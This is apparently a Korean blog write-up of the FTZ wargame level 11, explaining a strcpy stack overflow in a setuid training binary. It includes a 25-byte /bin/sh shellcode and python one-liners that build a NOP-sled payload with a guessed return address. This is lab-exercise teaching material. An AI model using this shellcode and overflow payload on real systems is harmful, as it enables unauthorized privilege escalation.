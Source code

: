 ```yaml
---
title:  "[FTZ] level 11"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-11-30 23:55:29

---
```


# level 11

**level11 / what!@#$?**

힌트

![image](https://user-images.githubusercontent.com/69203345/144042166-e6eca1ab-7038-4329-ab30-84b1beb1e897.png)

attackme가 뭔진 모르지만 일단 코드부터

int setreuid(uid_t ruid, uid_t euid)  
매개변수  
ruid = Real User ID  
euid = Effective User ID

Real UID : # who am i ( 내가 어떤 사용자로 로그인 했는가 )  
Effective UID : #id or #whoami    ( 현재 내가 누구 인가 )

반환값  
성공시 0 에러시 -1 리턴, errno 는 적절하게 설정된다.

strcpy 함수에서 문자열 길이 검사를 하지 않기 때문에 오버플로우 취약점이 생긴다  


![image](https://user-images.githubusercontent.com/69203345/144043470-5c79233e-99f4-4255-bf46-e4a1002274a1.png)

attackme에 setuid가 설정되어있다  
실행시 level12의 권한으로 실행된다

attackme를 실행하면 level12로 실행되고  
그럼 패스워드를 알 수 있을 것이다

![image](https://user-images.githubusercontent.com/69203345/144044046-53102147-033a-4e8e-bf48-3abf96d120cc.png)

입력한 문자열을 그대로 출력 한다

gdb를 통해 확인 해보자  
level9에서 했던 것처럼 intel 문법으로 바꿔서 확인하자

![image](https://user-images.githubusercontent.com/69203345/144045310-49811c4c-8c18-47fb-bbc7-69dc3a6b5ec8.png)

0x08048473 <main+3>:    sub    esp,0x108  
<main+3>을 통해 char str[256]의 공간을 스택에 마련함
strcpy함수를 사용하기 때문에 str공간을 넘어서 다른 영역도 침범 가능  
256의 0x100의 공간에 dummy로 0x8만큼 할당함  
esp = [ebp - 264]

0x08048479 <main+9>:    sub    esp,0x8  
esp = [ebp - 272]  
아마 스택의 구조는 이럴것이다

높은주소  

[  RET(4)  ]  
[  SFP(4)  ]  
[ dummy(8) ]  
[ str(256) ]  

낮은주소

아무 값 268 (256+8+4)에 4byte를 넣으면 ret에 원하는 값을 덮어 씌울 수 있다  
ret 에 쉘코드가 저장된 주소를 넣어줘야 하는데 먼저 쉘 코드를 준비해야한다  
구글링 하면 나오는 25바이트 쉘 코드 사용
>\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

쉘 코드 앞에는 NOP을 의마하는 \x90 으로 채워준다
268(str[256]+dummy[8]+SFP[4])-shellcode(25) = 243  

>`python -c 'print "\x90"*243+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"AAAA"'`

NOP을 넣는 것을 NOP Sled 라고 한다
NOP Sled를 사용하는 이유는 쉘 코드를 올려주면 쉘코드의 시작 주소에서 시작한다는 보장이 없기 때문이다 그래서 프로그램의 시작주소를 약간 부정확하게 확인했어도 NOP의 개수 만큼의 오차 범위 안에있는 주소라면 쉘코드가 실행된다

리턴 주소를 구하기 위해 ebp-264의 주소를 알아야 한다
ebp-264에 argv[1]을 덮어쓰는 작업을 하고 난 후인 *main+53에 브레이크 포인트를 건다

![image](https://user-images.githubusercontent.com/69203345/144066563-dc367fa3-74c1-4464-858c-57649b700103.png)

![image](https://user-images.githubusercontent.com/69203345/144067434-d9d3f9f5-4481-437d-bee2-09ad6e334103.png)

검색해 보니까 setuid 가 걸려 있어서 오류가 뜬다고 한다  
tmp로 복사한후 하면 된다

![image](https://user-images.githubusercontent.com/69203345/144068972-d02342e3-79e8-4834-a291-167309e2b1be.png)

잘 작동한다 그럼 esp의 스택을 확인 해보자

![image](https://user-images.githubusercontent.com/69203345/144077360-6a938d4c-fb78-4fba-8035-910b9c22d93a.png)

0xbffff4c0 부터 NOP이 저장 되고 있다

그럼이제 나가서 버퍼오버플로우 시도  
>`python -c 'print "\x90"*243+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\xc0\xf4\xff\xbf"'`


Segmentation fault가 나타나는데 노가다 하자!  
하다 하다 안되서 리턴주소를 조금씩 바꿔가면서 함

![image](https://user-images.githubusercontent.com/69203345/144078425-ccaa313d-f97e-40c0-9132-a932c7106cd0.png)

0xbffffbc0에서 성공..(원래 이렇게 하는건가?)

다음!